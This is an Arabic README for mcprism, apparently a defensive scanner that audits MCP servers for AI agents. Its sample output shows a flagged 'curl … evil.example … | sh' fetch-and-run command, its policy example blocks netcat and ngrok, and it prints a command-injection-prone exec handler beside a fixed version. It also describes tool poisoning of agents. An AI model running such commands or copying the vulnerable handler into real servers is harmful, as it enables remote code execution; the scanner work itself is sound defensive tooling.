

<div align="center">

<p><a href="README.md">English</a> · <a href="README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · <a href="README.es-ES.md">Español</a> · <a href="README.ru-RU.md">Русский</a> · العربية</p>


# mcprism

<div dir="rtl">

**افحص خوادم MCP قبل أن يثق بها ذكاؤك الاصطناعي.**

</div>

mcprism هو ماسح أمني لخوادم <a href="https://modelcontextprotocol/">Model Context Protocol</a>. يفحص الخادم من ثلاث زوايا:

<div dir="rtl">

1. **التكوين** — كيف يطلقه العميل أو يتصل به: الحزم المثبّتة بإصدارات محددة، النقل بنص صريح، بيانات الاعتماد داخل التكوين، والأهداف التي تشير إلى بيانات تعريف السحابة والشبكات الخاصة.
2. **الكود المصدري** — إن كان التنفيذ موجودًا على القرص، يقرأ معالجات الأدوات المكتوبة بـ JS/TS/Python/Go ويتتبع الوسائط التي يتحكم فيها الوكيل حتى تصل إلى مصارف خطرة: تنفيذ العمليات، الطلبات الصادرة (SSRF)، ومسارات نظام الملفات، إضافة إلى eval وإلغاء التسلسل غير الآمن والأسرار المكتوبة داخل الكود.
3. **وقت التشغيل** — يجري مصافحة MCP ليسرّد الأدوات والموارد والأوامر النصية، ويتحقق من تسميم البيانات الوصفية للأدوات. ولا يستدعي أي أداة إطلاقًا.

</div>

يحصل كل خادم على قائمة بالنتائج المكتشفة، ونتيجة رقمية من 0 إلى 100، وتقدير من A إلى F. يُوزَّع mcprism كملف ثنائي واحد بلغة Go بلا أي اعتماديات وقت تشغيل، ويعمل بالكامل دون اتصال، وبلا أي آثار جانبية.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

<div dir="rtl">

يربط MCP وكيل الذكاء الاصطناعي لديك بخوادم خارجية للوصول إلى الأدوات والملفات والبيانات. البروتوكول مدمج في Claude Desktop وClaude Code وCursor وVS Code وWindsurf وغيرها، لذا فإن أي تثبيت اعتيادي سرعان ما يتصل بعدة خوادم. هذه الخوادم تنفّذ الأوامر وتقرأ نظام الملفات وترى أوامرك النصية. يمكن لخادم خبيث أو مفرط الصلاحيات أن يسرق بيانات الاعتماد، أو ينفّذ الأوامر، أو يوجّه الوكيل عبر النص الذي يعيده. يمنحك mcprism تقريرًا ونتيجة لكل خادم قبل أن يستخدمه الوكيل، تمامًا كما تشغّل `trivy` على صورة حاوية.

</div>

<p align="center">
  
</p>

<div dir="rtl">

## بداية سريعة في سطرين

</div>

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

<div dir="rtl">

## فحص خادم في سطر واحد

افحص أمر تشغيل، أو رابطًا، أو حزمة، أو كودًا على القرص دون إضافته إلى أي تكوين:

</div>

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # فحص شجرة الكود المصدري
mcprism vet server.py            # فحص ملف واحد
```

<div dir="rtl">

أمر `vet` ثابت افتراضيًا ولا يشغّل الهدف. أضف `--probe` لإطلاقه وتعداد أدواته وموارده وأوامره النصية. تمرّ شجرة الكود أو الملف عبر محرك SAST الموضّح أدناه، دون الحاجة إلى اتصال بالشبكة.

</div>

<p align="center">
  
</p>

<div dir="rtl">

## المحتويات

- [سجل التغييرات](CHANGELOG.md)
- [شرح سطح الهجوم](docs/MCP-ATTACK-SURFACE.md)
- [عدة الإطلاق](docs/LAUNCH-KIT.md)
- [الميزات](#الميزات)
- [متى يُستخدم](#متى-يُستخدم)
- [التقرير](#التقرير)
- [التثبيت](#التثبيت)
- [بداية سريعة](#بداية-سريعة)
- [مثال على المخرجات](#مثال-على-المخرجات)
- [السياسة ككود](#السياسة-ككود)
- [مراجعة الكود المصدري (SAST)](#مراجعة-الكود-المصدري-sast)
- [ما يُكتشف](#ما-يُكتشف)
- [صيغ المخرجات](#صيغ-المخرجات)
- [العملاء ووسائل النقل المدعومة](#العملاء-ووسائل-النقل-المدعومة)
- [CI/CD](#cicd)
- [كيف يعمل](#كيف-يعمل)
- [مقارنة](#مقارنة)
- [أسئلة شائعة](#أسئلة-شائعة)
- [خارطة الطريق](#خارطة-الطريق)
- [المساهمة](#المساهمة)

## الميزات

- ملف ثنائي واحد. لا حاجة إلى تثبيت Python أو Node، ولا مفتاح واجهة LLM، ولا حساب.
- فحص ثابت ومصدري ومباشر. يقرأ التكوين، ويراجع كود JS/TS/Python/Go عند وجود شجرة كود، ويجري مصافحة MCP ليسرّد الأدوات والموارد والأوامر النصية. لا يستدعي أي أداة.
- السياسة ككود. فعّل القواعد أو عطّلها، وعدّل درجات الخطورة، واسمح أو ارفض الحزم/الأوامر/النطاقات، واطلب عزل الشبكة. توفّر الملفات الشخصية المدمجة خطوط الأساس `default` و`strict` و`ci`.
- سجل المخاطر المقبولة. اكتمش نتائج محددة مع ذكر السبب وتاريخ انتهاء. تبقى العناصر المكتومة ظاهرة في التقرير وتعود تلقائيًا عند انتهاء مدتها.
- حتمي ويعمل دون اتصال. 34 قاعدة مرتبطة بـ OWASP MCP01–MCP07، ولا شيء يغادر جهازك.
- تقارير للبشر والآلات: table وJSON وMarkdown وHTML وSARIF وJUnit XML وCycloneDX SBOM وCSV.
- امسح عدة أهداف دفعة واحدة: ملفات، أو أدلة (بشكل متكرر)، أو روابط.

## متى يُستخدم

- ثبّتَّ خوادم MCP وتريد معرفة ما يمكنها الوصول إليه قبل أن يطلقها الوكيل. شغّل `mcprism scan`.
- يتشارك فريقك مجموعة خوادم ويريد خط أساس موثّقًا واحدًا. ضع ملف `policy.yml` تحت التحكم بالإصدارات وشغّل `--profile strict` على أجهزة الإنتاج.
- تراجع التغييرات في CI. شغّل `mcprism scan --profile ci` لإفشال البناء عند درجة high أو أعلى، أو انشر نتائج SARIF ضمن فحص الكود.

## التقرير

</div>

<p align="center">
  
</p>

<div dir="rtl">

مراجعة دفعية لعدد كبير من الخوادم (الوضع الثابت):

</div>

<p align="center">
  
</p>

<div dir="rtl">

## التثبيت

</div>

```sh
# مثبّت من سطر واحد (Linux / macOS / Windows عبر Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

<div dir="rtl">

أو نزّل ملفًا ثنائيًا من صفحة <a href="https://github.com/HUA503/mcprism/releases">الإصدارات</a> (Linux/macOS/Windows، بمعماريتي amd64 وarm64). توفير عبر Homebrew وScoop وNix مدرج في خارطة الطريق.

## بداية سريعة

</div>

```sh
# يكتشف تلقائيًا تكوينات Claude Desktop وClaude Code وCursor وVS Code وغيرها
mcprism scan

# ملف تكوين محدد
mcprism scan ~/.claude.json

# دليل، يُفحص بشكل متكرر
mcprism scan ./configs

# خادم بعيد
mcprism scan https://mcp.example.com/v1

# عدة أهداف معًا
mcprism scan a.json b.json ./configs

# دون اتصال بالكامل / ثابت فقط (لا يطلق عمليات ولا يتصل)
mcprism scan mcp.json

# تطبيق خط أساس أو سياسة مخصصة
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# واجهة طرفية تفاعلية
mcprism scan -i

# فحص أمر / رابط / حزمة دون كتابة تكوين
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # إطلاق فعلي وتعداد الأدوات

# مرجع
mcprism inspect mcp.json     # تعداد أدوات/موارد/أوامر الخادم
mcprism rules                # تعداد القواعد المدمجة
mcprism profiles             # تعداد الملفات الشخصية المدمجة
```

<div dir="rtl">

### الخيارات

</div>

<div dir="rtl">

| الخيار | الوصف |
|---|---|
| `-f, --format` | `table` (افتراضي) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | كتابة التقرير إلى ملف |
| `-p, --policy` | مسار ملف سياسة بصيغة YAML |
| `--profile` | ملف شخصي مدمج: `default` · `strict` · `ci` |
| `--suppressions` | مسار ملف الكتم بصيغة YAML |
| `--no-dynamic` | تحليل ثابت فقط؛ لا يطلق عمليات ولا يتصل |
| `--fail-on` | رمز خروج غير صفري عند `critical` / `high` / `medium` / `low` |
| `--timeout` | مهلة مصافحة كل خادم (افتراضي `10s`) |
| `-i, --interactive` | تصفّح النتائج داخل واجهة TUI |
| `--transport` | فرض `http` (Streamable HTTP) أو `sse` (القديم) للروابط |
| `--probe` (`vet`) | إطلاق/اتصال فعلي وتعداد الأدوات؛ يشغّل الهدف، ويُفضّل داخل بيئة معزولة |

## مثال على المخرجات

</div>

<div dir="rtl">

فحص خادمين محليين في الوضع الثابت:

</div>

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

<div dir="rtl">

تضيف صيغتا HTML وSARIF الأدلة، ونصائح المعالجة، والربط بـ OWASP.

## السياسة ككود

ملف السياسة هو مستند YAML ذو إصدار. يحدد شروط النجاح/الرسوب، ويتجاوز قواعد مفردة، ويسرّد الحزم/الأوامر/النطاقات المسموحة والمرفوضة، ويمكنه أن يفرض على الخوادم التي تصل إلى الملفات أو الطرفية ألا تجري اتصالات شبكية صادرة.

</div>

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

<div dir="rtl">

أي تطابق مع قاعدة رفض يُبلَّغ عنه بوصفه `MCP700`؛ أما الخادم الذي يصل إلى الملفات/الطرفية ويملك وصولاً شبكيًا مع تفعيل شرط العزل فيُبلَّغ عنه بوصفه `MCP701`. راجع <a href="examples/policy.yml">examples/policy.yml</a> و<a href="examples/suppressions.yml">examples/suppressions.yml</a> و<a href="docs/POLICIES.md">دليل السياسات</a>. للاطلاع على بوابات الامتثال والمخرجات المقروءة آليًا، راجع docs/COMPLIANCE.md.

## مراجعة الكود المصدري (SAST)

يخبرك التكوين كيف يُطلَق الخادم، لكنه لا يخبرك بما يفعله المعالج بالوسيط. قد يبدو الخادم سليمًا في التكوين بينما يمرّر معامل أداة مباشرة إلى الطرفية، أو يستخدمه رابطًا لطلب، أو يفتح مسارًا مبنيًا منه. هذه العيوب موجودة داخل التنفيذ، لذا يقرأ mcprism الكود.

وجّه `vet` إلى شجرة كود أو ملف واحد. لا حاجة إلى خطوة بناء، ولا اعتماديات مثبّتة، ولا اتصال:

</div>

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

<div dir="rtl">

يتعرّف على حزم SDK وأطر العمل الشائعة:

- JavaScript/TypeScript: خادم `McpServer` من حزمة `@modelcontextprotocol/sdk`، و`Server.setRequestHandler` منخفض المستوى، وتسجيلات `.tool(...)` المختلفة.
- Python: مزيّن `@mcp.tool()` في `FastMCP`، ومعالج `call_tool` منخفض المستوى.

لكل أداة، يتعامل مع وسائط المعالج بوصفها بيانات يتحكم فيها مهاجم ويتتبعها خطوة واحدة حتى تصل إلى مصرف. تسمّي النتائج الملف والرقم، وتعرض الكود، وتشرح طريقة الإصلاح:

</div>

<div dir="rtl">

| القاعدة | المصرف | افتراضيًا |
|---|---|---|
| MCP801 | يصل إدخال الأداة إلى مصرف عملية/أمر (`exec`، `spawn`، `os.system`، `subprocess shell=True`) | critical |
| MCP802 | يتحكم إدخال الأداة برابط الطلب (`fetch`، `requests`، `httpx`) — SSRF | high |
| MCP803 | يُستخدم إدخال الأداة مسارًا للملف دون حصر | high |
| MCP804 | تنفيذ كود ديناميكي (`eval`، `Function`، `exec`) | high |
| MCP805 | إلغاء تسلسل غير آمن (`pickle`، `marshal`، `yaml.load`) | high |
| MCP806 | بيانات اعتماد مكتوبة داخل الكود المصدري | high |

يتعرّف على الأنماط الآمنة المعتادة ويلتزم الصمت عند وجودها لتقليل النتائج الإيجابية الخاطئة:

- أمر ثابت مع وسائط تُمرَّر كمصفوفة (`execFile(cmd, args)`، `subprocess.run([...])`) بدل سلسلة طرفية.
- حصر المسارات: التحقق من `path.resolve(base, name)` عبر `startsWith(base)`، أو `realpath` متبوعًا بـ `startswith` في Python.
- رابط أساس ثابت بدل مضيف يختاره الوكيل، إضافة إلى `yaml.safe_load` / `SafeLoader`.

يُوسَم المعالج التالي بـ MCP801 لأن الوكيل يتحكم في الأمر:

</div>

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

<div dir="rtl">

أمّا النسخة المصحَّحة فتستخدم قائمة سماح ولا تطلق طرفية أبدًا:

</div>

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

<div dir="rtl">

يعمل المحرك وفق أنماط مع مستوى واحد من تتبع التلوث ودون محللات تابعة لجهات خارجية، ليبقى الملف الثنائي صغيرًا ومكتفيًا بذاته. لا يكتشف كل ما قد يلتقطه تحليل تدفق بيانات كامل؛ بل يستهدف المسارات القصيرة المباشرة من المعالج إلى المصرف، حيث تقع غالبية عيوب خوادم MCP. تفاصيل القواعد ومزيدًا من الأمثلة تجدها في docs/SAST.md.

</div>

<p align="center">
  
</p>

<div dir="rtl">

## ما يُكتشف

- الأسرار داخل التكوين. تُوسَم صيغ بيانات الاعتماد المعروفة (AWS وGoogle وGitHub وSlack وStripe وGitLab وOpenAI وJWT وغيرها) حسب نوعها، أمّا القيم عالية القصور العشوائي التي تشبه مفاتيح مولّدة فتُعلَم كأسرار مشتبهة. لا يُبلَّغ عن القيم الوهمية ولا عن مراجع `${ENV_VAR}`.
- النقل بنص صريح وTLS المعطّل (`http://`، `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- الصلاحيات الواسعة جدًا. خوادم ملفات مُركّبة على `/` أو المجلد الرئيسي؛ صناديق حماية أو فحوص صلاحيات معطّلة.
- تسميم الأدوات. تعليمات حقن، وترميز Unicode غير مرئي/ثنائي الاتجاه، وHTML/Markdown مخفي، وكتل مُرمَّزة داخل أسماء الأدوات وأوصافها ومخططاتها.
- تركيبات قدرات خطرة، مثل الطرفية مع الشبكة، أو قراءة الملفات مع الشبكة، أو كتابة الملفات مع الطرفية.
- أهداف الشبكة. نقاط بيانات تعريف السحابة (`169.254.169.254`) ونطاقات العناوين الخاصة/الحلقية.
- مخاطر سلسلة التوريد: حزم غير مثبّتة الإصدار، وأسماء قريبة على طريقة typosquat، وكود يُنفَّذ مباشرة من رابط بعيد.
- مخالفات السياسة: حزم/أوامر/نطاقات مرفوضة، وعزل شبكي مخترَق.
- عيوب كود داخل معالجات JS/TS/Python/Go: وسائط أدوات تصل إلى مصارف الأوامر والشبكة والملفات، وeval/exec، وإلغاء تسلسل غير آمن، وأسرار مكتوبة في الكود. راجع <a href="#مراجعة-الكود-المصدري-sast">مراجعة الكود المصدري</a>.
- تعارض أسماء الأدوات بين الخوادم، وحالات فشل اتصال مصنّفة (DNS / TLS / مرفوض / مهلة / لا يوجد أمر).

القائمة الكاملة مع الربط بـ OWASP موجودة في docs/RULES.md.

## صيغ المخرجات

| الصيغة | الاستخدام المعتاد |
|---|---|
| `table` | المخرجات الطرفية |
| `json` | أدوات مخصصة |
| `sarif` | فحص كود GitHub |
| `md` | تقارير Markdown / تذاكر |
| `html` | تقرير مستقل قابل للمشاركة |
| `junit` | تقارير اختبار Jenkins وGitLab وGitHub |
| `cyclonedx` | SBOM / استيراد الثغرات |
| `csv` | جداول البيانات وسير عمل GRC |

## العملاء ووسائل النقل المدعومة

يقرأ mcprism تكوين MCP بصيغ JSON/JSONC الذي تستخدمه Claude Desktop وClaude Code وCursor وVS Code (GitHub Copilot Chat) وWindsurf وCline وContinue وأدوات مشابهة، سواء على هيئة كائن `mcpServers` أو مصفوفة. يدعم وسائل نقل MCP الثلاث جميعها: stdio وStreamable HTTP وHTTP+SSE القديم.

## CI/CD

احجب الخوادم الخطرة داخل خط الأنابيب باستخدام الملف الشخصي `ci`:

</div>

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --profile ci
```

<div dir="rtl">

انشر في فحص كود GitHub عبر SARIF:

</div>

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

<div dir="rtl">

تعمل مخرجات JUnit مع خطوات تقارير الاختبار في Jenkins وGitLab، ويمكن تمرير مخرجات CycloneDX إلى نظام تتبع SBOM أو الثغرات.

## كيف يعمل

</div>



<div dir="rtl">

يكتفي mcprism بتعداد القدرات، لذا لا يترك التحليل أي آثار جانبية. الخادم التجريبي المرفق (`examples/testserver`) يحاكي سلوكيات خطرة دون تنفيذها فعلًا. بنية الحزم وتدفقات البيانات مشروحة في docs/ARCHITECTURE.md.

## مقارنة

استنادًا إلى الأوصاف المنشورة لهذه المشاريع (قد تتغير الميزات):

</div>

<div dir="rtl">

| | **mcprism** | mcp-scan | mcp-audit | مراجعة يدوية |
|---|---|---|---|---|
| اللغة / وقت التشغيل | Go، ملف ثنائي واحد | Python | Python/Node | — |
| بلا اعتماديات تثبيت/تشغيل | ✅ | ❌ | ❌ | — |
| مراجعة تكوين ثابتة | ✅ | ✅ | جزئي | ❌ |
| تعداد مباشر للقدرات | ✅ | جزئي | جزئي | ❌ |
| SAST للكود المصدري (تتبع من المعالج إلى المصرف) | ✅ | ❌ | ❌ | ❌ |
| كشف تسميم الأدوات | ✅ | ✅ | جزئي | ❌ |
| نمذجة تركيبات القدرات | ✅ | ❌ | ❌ | ❌ |
| السياسة ككود (سماح/رفض/عزل) | ✅ | ❌ | ❌ | ❌ |
| مخرجات JUnit / CycloneDX / CSV | ✅ | ❌ | ❌ | ❌ |
| مسح متكرر ومتعدد الأهداف | ✅ | جزئي | ❌ | ❌ |
| SARIF + رموز خروج لـ CI | ✅ | ✅ | ❌ | ❌ |
| دون اتصال بالكامل، بلا LLM | ✅ | ✅ | جزئي | ✅ |
| يعمل عبر المنصات | ✅ | جزئي | جزئي | — |

## أسئلة شائعة

**هل يستدعي mcprism أدواتي؟**
لا. يجري تهيئة MCP وطلبات التعداد فقط. لا تُستدعى الأدوات، ولا تُفتح الملفات عبر خادم، ولا تُرسَل الأوامر النصية.

**هل يرسل البيانات إلى أي جهة؟**
لا. تُشغَّل القواعد محليًا ولا توجد قياسات عن بُعد. لا يتحدث الفحص المباشر إلا إلى الخادم المحدد لإجراء المصافحة؛ ومع `--no-dynamic` لا يحدث حتى ذلك.

**ما الفرق بينه وبين mcp-scan أو mcp-audit؟**
يعمل الأخيران على Python أو Node ويركزان على التكوين أو التسميم. أمّا mcprism فهو ملف ثنائي واحد بلغة Go، ويصمم تركيبات القدرات، ويطبق السياسة ككود، ويصدر JUnit وCycloneDX وCSV إضافة إلى SARIF. راجع <a href="#مقارنة">جدول المقارنة</a>.

**ظهرت نتيجة إيجابية خاطئة في بيئتي. ماذا أفعل؟**
أصلِح المشكلة الجذرية إن أمكن، وإلا فاكتمش النتيجة مع سبب وتاريخ انتهاء. تبقى العناصر المكتومة ظاهرة وتنتهي مدتها تلقائيًا. راجع docs/POLICIES.md.

**هل التقرير النظيف يعني أن الخادم آمن؟**
لا. يبلغ mcprism عن المخاطر المعروفة القابلة للرصد، ولا يمكنه إثبات أن خادمًا آمن، لذا شغّل الخوادم التي تثق بها فقط.

## خارطة الطريق

- [ ] مزيد من القواعد ونتائج إيجابية خاطئة أقل مع تطور مواصفة MCP
- [ ] مسح سجلات / أسواق MCP
- [ ] قواعد يحددها المستخدم تتجاوز عمليات تجاوز السياسة
- [ ] خطّاف pre-commit وتكامل مع المحررات
- [ ] حزم Homebrew وScoop وNix

## المساهمة

نرحّب بالـ issues والـ PR. المساهمة الجيدة بقاعدة هي فحص ذو إشارة واضحة، حتمي، ومنخفض النتائج الإيجابية الخاطئة: أضِفه تحت `internal/rules`، واربطه بمخاطرة OWASP MCP، وأرفِق اختبارًا. بنية الكود موجودة في docs/ARCHITECTURE.md. شغّل `go vet ./... && go test ./...` قبل فتح الـ PR.

## الترخيص

<a href="LICENSE">MIT</a> © mcprism contributors.

mcprism أداة دفاعية. يبلغ عن المخاطر؛ ولا يثبت أن خادمًا آمن، والتقرير النظيف ليس سببًا للثقة بخادم لا تفهمه.

</div>
